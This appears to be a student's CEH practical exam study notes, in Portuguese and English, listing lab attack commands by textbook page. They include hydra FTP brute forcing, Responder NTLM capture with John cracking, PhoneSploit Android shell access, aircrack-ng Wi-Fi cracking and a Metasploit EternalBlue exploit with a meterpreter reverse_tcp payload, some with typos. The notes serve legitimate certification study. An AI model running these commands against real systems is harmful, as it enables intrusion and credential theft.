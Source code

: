 Questões do Ilabguide / bookshelf
Atividades passadas pelo instrutor e Anotações Importantes para prova.


## 01 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/1842

“Attempt FTP login on target IP 10.10.1.11 with hydra using usernames and passwords from wordlists” The output of this prompt results in the following command:
hydra -L/usr/share/wordlists/ftp-usernames.txt -p /usr/share/wordlists/ftp-passwords.txt ftp://10.10.1.11


## 02 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4363
moviescoope:

GET da aplicacao moviescope.com pegando data de niver do usuario john
view profile:



## 03 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4499
The Login page appears; log in into the website using the retrieved credentials john/qwerty. 


## 04 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4570
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4578
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4580
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4581

MQTT Obs: Como encontrar o pacote, tamanho da mensagem MQTT é flag.  


Port 1883 is the default MQTT port; 1883 is defined by IANA as MQTT over TCP.
usar wireshark:

Type mqtt under the filter field and press Enter. To display only the MQTT protocol packets.
. Select any Publish Message packet from the Packet List pane. In the Packet Details pane at the middle of the window, expand the Transmission Control Protocol, MQ Telemetry Transport Protocol, and Header Flags nodes.
50. Under the MQ Telemetry Transport Protocol nodes, you can observe details such as Msg Len, Topic Length, Topic, and Message.
51. Publish Message can be used to obtain the message sent by the MQTT client to the broker.


## 05 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/641
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/644
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/651
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/654
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/657
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/668 ***
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/675 *** batman <kkkkkkkkkk>

NTLM: pwdump7 / Responder
Responder -I eth0
cd /usr/share/responder/logs
copiar toda hash ate nome do usuario.
vi hash.txt
john hash.txt ----wordlist=
john –-rules --wordlist=</path_to/output_wordlist.txt> format=NT /path/to/ntlm_hashes.txt 
-- show pra ver..


## 06 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/539
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/540
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/541

locate *.NSE | grepe SMB-
nmap -sV <targ> --script=smb-vuln
nmap -p 139 –-script smb-protocols <Target IP>


## 07 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/2661
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4538
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4539
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4544

nmap -sV -p 5555 <targ> --open
nmap -sn -PE 10.10.10.0/24

cd PhoneSploitpro
python3 PhoneSploitpro.py

1: Connect a Device <targ>
14: Acess Device Shell 

pwd
sdcard
ls
/sdcard/Download/images.jpeg
 Type exit and press Enter
8: Download File/Folder from Device

## 09 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4526
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4531   ****
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4532


 aireplay-ng -0 11 -a 22:7F:AC:6D:E6:8B -c EE:AB:46:A7:CF:18 wlx00e02d886189 and press Enter.
 aircrack-ng -a2 22:7F:AC:6D:E6:8B -w password.txt 

 aircrack-ng -w dicionario.txt pacotescapturados.pcap



## 10 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/3996
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4096
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4150
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4154

https://tryhackme.com/room/blue

ms17-010 - eternal blue  SMB(Server Message Block) 
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
nmap -script vuln -Pn <machine_ip>

msfconsole
search ms17-010 
use exploit/windows/smb/ms17_010_eternalblue or choose number
options
set rhosts <10.10.10.7 targ> 
set payload windows/x64/meterpreter/reverse_tcp
exploit
Impacke
exploit/windows/smb/ms17_010_eternalblue


## 11 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4640
https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/4643


veracrypt 
select file 
--mount secret
password qwerty@123

## 12 https://bookshelf.vitalsource.com/reader/books/9798894721378/pageid/907
https://www.openstego.com/index-es.html

openstego
Extract Data
Input Stego File < imagem que possa esta encryptada >
Output Folder For Messager File < mensagem extraida caso tenha >
Password ? exemplo Batman, qwerty@123, imagination 

## 
Falta ver smb://
sqlmap
whatweb
Nikto

https://github.com/hunterxxx/CEH-v12-Practical





